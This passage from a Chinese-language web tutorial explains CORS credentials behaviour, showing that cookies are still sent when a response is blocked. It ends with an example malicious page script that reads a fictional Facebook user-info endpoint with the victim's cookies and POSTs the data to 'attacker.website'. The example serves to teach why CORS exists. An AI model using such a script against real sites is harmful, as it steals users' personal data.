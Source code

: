 從 http://localhost:5000/ 的 F12 > Console 戳看看沒有加 `Access-Control-Allow-Credentials` Response Header 的 API Endpoint

```js
fetch("http://localhost:5001/access-control-allow-headers", {
  credentials: "include",
});
```

應該會看到以下錯誤
![cors-error-credentials-include](../../static/img/cors-error-credentials-include.jpg)

要注意的是，`cookie` 還是有被送出，Server 有收到 HTTP Request 並且回傳 HTTP Response，只是瀏覽器擋住 HTTP Response，不讓 JavaScript 讀取而已
![cors-error-credentials-include-cookie-still-send](../../static/img/cors-error-credentials-include-cookie-still-send.jpg)

如果瀏覽器不擋住 JavaScript 讀取 Response 的話，攻擊者就可以構造一個惡意的網站，竊取被害者（點開網站的人類）在 FaceBook 的個人資料，並且送到攻擊者架的 Server

```html
<script>
  // https://www.facebook.com/userInfo 這是假的 API EndPoint，只是舉例用
  fetch("https://www.facebook.com/userInfo", { credentials: "include" })
    .then((res) => res.text())
    .then((userInfo) =>
      fetch("https://attacker.website", { method: "POST", body: userInfo }),
    );
</script>
```
